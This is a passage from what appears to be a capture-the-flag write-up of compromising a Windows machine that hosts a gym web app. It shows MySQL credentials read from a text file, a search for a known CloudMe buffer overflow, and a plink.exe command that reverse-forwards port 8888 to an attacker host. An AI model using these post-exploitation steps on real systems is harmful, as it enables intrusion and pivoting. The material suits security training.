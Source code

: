 ```
I also find:

PS C:\xampp\htdocs\gym> type "New Text Document.txt"
type "New Text Document.txt"
$mysql_host = "mysql16.000webhost.com";
$mysql_database = "a8743500_secure";
$mysql_user = "a8743500_secure";
$mysql_password = "ipad12345";
PS C:\xampp\htdocs\gym> 

```

There are tons of service .bat files, but none seem to work.

I upload winpeas, but it doesn't really give me anything. net start is not allowed, netstat shows some potentially interesting stuff.

I browse through the program files, but I don't find much. Eventually I reach shaun's folder. And in his downloads folder is an executable:

```
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   8,998,813,696 bytes free

C:\Users\shaun\Downloads>
```

I google CloudMe_1112.exe and the first thing I see is a buffer overflow exploit. https://www.exploit-db.com/exploits/48389


I run the exe file and check that the service is running:

```
C:\Users\shaun\Downloads>netstat -ano | findstr 8888
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       5164

C:\Users\shaun\Downloads>
```

the service seems a bit unstable. Sometimes it shows up, and sometimes it does not.

I decide to port-forward with pslink.exe here

```
C:\xampp\htdocs\gym\upload>plink.exe -l root -pw kali -R 8888:127.0.0.1:8888 -P 4222 10.10.14.51
plink.exe -l root -pw kali -R 8888:127.0.0.1:8888 -P 4222 10.10.14.51
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's rsa2 key fingerprint is:
ssh-rsa 3072 61:87:0f:1b:6c:bc:7e:c3:25:2c:03:c2:5e:f1:2f:22
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
```